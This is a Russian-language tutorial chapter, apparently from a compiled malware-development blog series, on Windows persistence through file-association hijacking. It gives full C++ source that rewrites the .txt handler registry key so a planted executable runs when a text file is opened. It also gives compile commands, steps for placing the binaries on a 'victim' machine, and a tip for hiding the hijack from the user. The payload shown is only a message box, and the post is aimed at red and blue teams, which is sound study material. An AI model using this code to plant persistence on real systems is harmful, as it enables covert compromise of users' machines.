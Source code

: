 \newpage
\subsection{75. Разработка вредоносного ПО: закрепление (persistence) - часть 9. Перехват ассоциации файлов. Простой пример на C++.}

﷽

![pers](./images/66/2022-08-29_02-25.png){width="80%"}    

Эта статья является результатом моего собственного исследования одного из интересных методов закрепления вредоносного ПО: перехват ассоциации файлов.    

### ассоциация файлов по умолчанию     

Например, при двойном щелчке по файлу `.txt`, он открывается с помощью `notepad.exe`.     

![pers](./images/66/2022-08-29_02-17.png){width="80%"}    

Windows знает, что необходимо использовать `notepad.exe` для доступа к `.txt` файлам, потому что расширение `.txt` (и многие другие) привязано к приложениям, способным открывать такие файлы, в реестре: `HKEY_CLASSES_ROOT`.

Таким образом, можно перехватить ассоциацию файлов по умолчанию, чтобы выполнить вредоносную программу.     

### практический пример    

Давайте попробуем перехватить `.txt`. В этом случае обработчик расширения `.txt` указан в следующем ключе реестра:     

`HKEY_CLASSES_ROOT\\txtfile\\shell\\open\\command`    

Выполним команду:    

```powershell
reg query "HKCR\txtfile\shell\open\command" /s
```

![pers](./images/66/2022-08-29_02-19.png){width="80%"}    

Затем создадим "вредоносное" приложение:     

```cpp
/*
hack.cpp
вредоносное приложение для закрепления в Windows
через перехват ассоциации файлов
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/08/26/malware-pers-9.html
*/
#include <windows.h>
#pragma comment (lib, "user32.lib")

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, 
LPSTR lpCmdLine, int nCmdShow) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 0;
}
```

Как видите, логика довольно простая: просто всплывающее окно `meow-meow`.    

На следующем этапе мы перехватываем расширение `.txt`, изменяя значение `\HKEY_CLASSES_ROOT\txtfile\shell\open\command` с помощью этого скрипта:     

```cpp
/*
pers.cpp
windows persistence via
hijacking default file extension
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/08/26/malware-pers-9.html
*/
#include <windows.h>
#include <string.h>
#include <stdlib.h>
#include <stdio.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // command for replace
  // "%SystemRoot%\\system32\\NOTEPAD.EXE %1"
  // malicious app
  const char* cmd = "Z:\\2022-08-26-malware-pers-9\\hack.exe";

  // hijacking logic
  LONG res = RegOpenKeyEx(HKEY_CLASSES_ROOT, (LPCSTR)
  "\\txtfile\\shell\\open\\command", 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // update key
    RegSetValueEx(hkey, (LPCSTR)"", 0, REG_SZ, (unsigned char*)cmd, 
    strlen(cmd));
    RegCloseKey(hkey);
  }
  return 0;
}
```

Как видно из исходного кода, мы просто заменяем `%SystemRoot%\system32\NOTEPAD.EXE %1` на `Z:\2022-08-26-malware-pers-9\hack.exe`.

### демонстрация

Посмотрим, как это работает. Компилируем наш вредоносный код:

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![pers](./images/66/2022-08-29_04-21.png){width="80%"}    

Сгенерированный `hack.exe` необходимо загрузить на машину жертвы.    

Затем компилируем программу, отвечающую за закрепление:     

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![pers](./images/66/2022-08-29_04-22.png){width="80%"}    

Сгенерированный `pers.exe` также нужно поместить на машину жертвы.     

Затем просто запускаем:    

```powershell
.\pers.exe
```

![pers](./images/66/2022-08-29_02-21.png){width="80%"}    

Теперь пробуем открыть `.txt` файл, например, двойным кликом по `test.txt`:     

![pers](./images/66/2022-08-29_02-22.png){width="80%"}    

![pers](./images/66/2022-08-29_02-24.png){width="80%"}    

Как видно, "вредоносное ПО" успешно выполняется. Отлично! :)    

Затем выполняем очистку:    

```powershell
reg add "HKEY_CLASSES_ROOT\txtfile\shell\open\command" /ve /t REG_SZ /d "%SystemRoot%\system32\NOTEPAD.EXE %1"
```

![pers](./images/66/2022-08-29_02-34.png){width="80%"}    

В реальных вредоносных программах было бы хорошей практикой реализовать эту технику немного иначе, чтобы пользователь-жертва по-прежнему мог открывать оригинальный `.txt` файл, но при этом дополнительно запускал вредоносный код.     

Этот метод закрепления используется фреймворком [SILENTTRINITY](https://attack.mitre.org/software/S0692/) и кибершпионской группой [Kimsuky](https://attack.mitre.org/groups/G0094/). Это вредоносное ПО использовалось в кампании 2019 года против государственных агентств Хорватии неустановленными киберпреступниками.       

Надеюсь, этот пост поможет специалистам синей команды лучше понять данную технику и добавит новый инструмент в арсенал красных команд.    

[MITRE ATT&CK: Change Default File Association](https://attack.mitre.org/techniques/T1546/001/)     
[SILENTTRINITY](https://attack.mitre.org/software/S0692/)     
[Kimsuky](https://attack.mitre.org/groups/G0094/)      
[исходный код на Github](https://github.com/cocomelonc/meow/tree/master/2022-08-26-malware-pers-9)       
